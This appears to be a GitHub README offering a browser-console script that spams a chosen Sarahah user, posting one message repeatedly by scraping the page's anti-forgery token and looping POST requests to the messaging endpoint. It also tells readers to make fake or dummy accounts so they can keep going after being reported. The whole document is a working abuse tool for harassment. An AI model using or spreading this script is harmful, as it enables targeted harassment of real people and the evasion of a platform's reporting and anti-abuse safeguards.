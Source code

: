 # Spam Sarahah
Use this to spam sarahah users, because i got tired of all the sarahah statuses

<img src="hahahaha.PNG"/>

##### NOTE: Sarahah allows users to report messages, so some users might not recieve messages, if you think that is the case, it is recommended that you log in your account in another tab(obviously a fake/dummy account). If that account is reported by the user too, create another ;)



## Steps
1. Open the sarahah page of the user you want to spam
2. Open `console` by pressing f12
3. Copy and paste the following script in console.
    
```    
number = 50;
message = 'hello sarahah';
userId = $('#RecipientId').val();
verifTk = document.body.innerHTML.split("__RequestVerificationToken: $('")[1].split("').attr")[0];
for(i=0;i<number;i++){
    $.ajax({
        url: '/Messages/SendMessage',
        type: 'POST',
        cache: false,
        data: {
            __RequestVerificationToken: $(verifTk).attr('value'),
            userId: userId,
            text: message
        },
        success: function () {
           console.log("posted");
        },
        error: function () {
            console.log("error");
        }
    })
}
```

4. you will see `posted` in console, the number behind posted represents th number of times it has been posted.
5. There is no point 5, I am just adding this because a list with 5 points looks good. No, I don't have OCD.

#### Replace the top of the script with any number. the user gets the same message that number of times.
#### Replcae message with any message of your choice, but remember that the message should be placed between quotes.
